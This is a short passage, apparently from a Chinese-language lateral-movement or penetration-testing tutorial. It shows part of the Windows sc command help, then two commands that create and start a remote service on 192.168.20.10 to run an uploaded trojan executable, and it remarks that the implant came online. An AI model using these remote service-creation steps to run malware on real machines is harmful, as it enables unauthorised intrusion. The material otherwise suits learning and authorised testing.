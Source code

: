```
          sdshow----------显示服务的安全描述符。
          sdset-----------设置服务的安全描述符。
          showsid---------显示与任意名称对应的服务 SID 字符串。
          triggerinfo-----配置服务的触发器参数。
          preferrednode---设置服务的首选 NUMA 节点。
          GetDisplayName--获取服务的 DisplayName。
          GetKeyName------获取服务的 ServiceKeyName。
          EnumDepend------枚举服务依赖关系。
```

#### 2.2.4.3. 执行木马

木马上传后，我们就需要执行木马，那么执行木马则使用SC命令来操作，关于这个命令我也不想介绍，直接自行搜搜吧。

```
sc \\192.168.20.10 create shell binpath= "c:\1313.exe"
sc \\192.168.20.10 start shell
```

![image-20230705163558564](assets/lHUFfBJtZ2XTSAw.png)

#### 2.2.4.4. 查看上线情况

可以看到这里是成功上线了。

![image-20230705163858751](assets/jPGHvtkzEhbimNo.png)
